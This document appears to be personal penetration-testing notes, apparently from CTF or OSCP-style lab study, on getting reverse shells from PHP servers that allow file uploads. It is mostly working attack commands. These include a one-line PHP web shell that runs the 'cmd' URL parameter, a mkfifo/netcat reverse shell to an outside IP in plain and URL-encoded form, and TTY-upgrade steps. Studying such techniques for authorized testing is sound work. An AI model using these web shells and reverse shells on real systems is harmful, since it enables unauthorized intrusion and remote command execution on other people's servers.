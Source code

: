 # web-app revshells
﷽
* guide to obtaining reverse shells on web applications.
## scenario #1: php server w/ file upload
### obtaining a shell (ie. through a cmd window)
* since this is a PHP server, we can use PHP code and vulns to gain a shell.
* we can use PHP to use the `system()` function
  * this takes the url parameter `cmd` as an input and executes it as a system command.
* use the following one-liner:
  * `echo '<?php system($_GET["cmd"]); ?>' > shell.php`
  * ,which makes a PHP file called `shell.php` that calls the system to open a command prompt.
* This can be accessed by navigating to shell.php, eg. `http://example.com/shell.php?cmd={command-name}`

* Good for easy commands, checking simple stuff. not an entire shell.

#### Getting an interactive shell from this

* Start a `nc` listener on a port, eg.
  * `nc -lvnp 4444`

* Run the command `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.16.11 4444 >/tmp/f`, where:
  * `10.10.16.11` is the IP, and
  * `4444` is the port (same as the one `nc` is using).

* Remember to URL encode this before running, such that it looks something like this: `rm+/tmp/f%3bmkfifo+/tmp/f%3bcat+/tmp/f|sh+-i+2>%261|nc+10.10.16.11+4444+>/tmp/f`

  > [!WARNING]
  > It won't be this, remember to re-encode it!

* Our `nc` connection should be established!

> [!NOTE]
> that if this does not work, try using burp and its repeater page.

* After the (basic) shell has been acquired, we can get a `TTY` shell by the command:
  * `python3 -c 'import pty;pty.spawn("/bin/bash");'`

we should have a shell 🎉
* navigate to post-shell-exploitation.md for extra help gl sa'd ur a goat
##### Fully interactive shell

* Stop the `tty` with `CTRL+Z`

* Run `stty raw -echo`, `fg` to foreground it, and `export TERM=xterm` so we can clear the console.



### Full reverse shell

* Code for this is found in `~/hacking/oscp/exploitation/reverse-shells/php-reverse-shell.php`.

* Make sure to change the `IP` and `port` to your own (the `utun5` one).
* Start a `nc` listener:
  * `nc -lvnp 1234` (or whatever the port is)

